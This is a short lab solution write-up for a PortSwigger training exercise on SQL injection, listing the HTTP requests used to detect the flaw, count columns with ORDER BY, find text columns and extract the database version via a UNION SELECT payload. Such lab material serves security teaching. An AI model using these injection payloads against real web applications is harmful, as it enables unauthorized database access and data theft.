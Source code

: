 # [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§--+ HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
    - [Note the space after the double dash] at MySQL database

3. Finding a column containing text:

    ```http
    GET /filter?category='UNION+SELECT+'s','s'--+ HTTP/1.1`
    ```

    - => both columns contain text
4. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+NULL,@@version--+ HTTP/1.1`
    ```

    => Lab Solved
